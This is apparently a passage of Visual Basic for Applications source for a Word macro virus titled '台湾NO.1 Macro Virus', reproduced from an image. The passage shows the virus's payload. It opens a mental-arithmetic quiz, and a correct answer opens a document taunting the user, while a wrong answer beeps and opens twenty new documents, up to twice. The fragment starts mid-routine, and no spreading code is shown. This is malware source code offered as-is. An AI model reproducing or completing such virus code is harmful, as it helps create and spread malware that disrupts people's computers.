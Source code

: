 ```vb
                    GoTo beg
                End If
                tog$ = tog$ + Str$(nm(i)) + "*"
            Next i
beg:
        Beep
        ans$ = InputBox$("今天是" + Date$ + ",跟你玩一个心算游戏" + Chr$(13) + "若你答错，只好接受震撼教育......" + Chr$(13) + tog$, "台湾NO.1 Macro Virus")
        If RTrim$(LTrim$(ans$)) = LTrim$(Str$(con)) Then
            Documents.Add
            Selection.Paragraphs.Alignment = wdAlignParagraphCenter
            Beep
            With Selection.Font
                .Name = "细明体"
                .Size = 16
                .Bold = 1
                .Underline = 1
            End With
            Selection.InsertAfter Text:="何谓宏病毒"
            Selection.InsertParagraphAfter
            Beep
            Selection.InsertAfter Text:="答案："
            Selection.Font.Italic = 1
            Selection.InsertAfter Text:="我就是......"
            Selection.InsertParagraphAfter
            Selection.InsertParagraphAfter
            Selection.Font.Italic = 0
            Beep
            Selection.InsertAfter Text:="如何预防宏病毒"
            Selection.InsertParagraphAfter
            Beep
            Selection.InsertAfter Text:="答案："
            Selection.Font.Italic = 1
            Selection.InsertAfter Text:="不要看我......"
            GoTo out
            Else
                Count = Count + 1
                For j = 1 To 20
                    Beep
                    Documents.Add
                Next j
            Selection.Paragraphs.Alignment = wdAlignParagraphCenter
            Selection.InsertAfter Text:="宏病毒"
            If Count = 2 Then GoTo out
            GoTo try
        End If
Wend
End If
out:
End Sub
```
